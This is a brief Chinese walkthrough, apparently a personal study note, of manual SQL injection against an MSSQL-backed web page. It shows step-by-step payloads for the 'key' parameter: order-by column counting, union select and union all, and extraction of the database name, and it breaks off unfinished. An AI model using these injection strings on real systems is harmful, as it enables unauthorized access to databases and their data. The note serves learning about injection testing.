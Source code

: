 ```yaml
---
description: mysql的手注已经轻车熟路了，尝试一下mssql的注入
---
```


# SQLserver手注过程

注点寻找

![](../.gitbook/assets/image%20%2878%29.png)

进一步确认，页面正常

![](../.gitbook/assets/image%20%2848%29.png)

测试字段数：

* key=ss%27 order by 2 --  正常
* key=ss%27 order by 4 --  报错  但不是字段数的问题
* key=ss' order by 8 --   字段数不正确 
* key=ss' order by 6 --   字段数不正确
* key=ss' order by 5 -- 字段数不正确

确认字段数为4   来看一下报错

![](../.gitbook/assets/image%20%2879%29.png)

应该是类型不同的原因  直接尝试union查询

key=ss' and 1=2 union select 1,2,3,4 --     报错

![](../.gitbook/assets/image%20%2816%29.png)

可能是因为有字符串  改造payload：key=ss' and 1=2 union select '1','2','3','4' --

![](../.gitbook/assets/image%20%28139%29.png)

上网查找错误： 产生这一错误的原因是union语句合并查询时是默认去除重复项的，也就是默认执行了distinct操作。改用union all

![](../.gitbook/assets/image%20%2898%29.png)

位置确认了  测试数据库名字 key=ss' and 1=2 union all select '1',db\_name\(\),'3','4' --

![](../.gitbook/assets/image%20%28134%29.png)

未完待续……

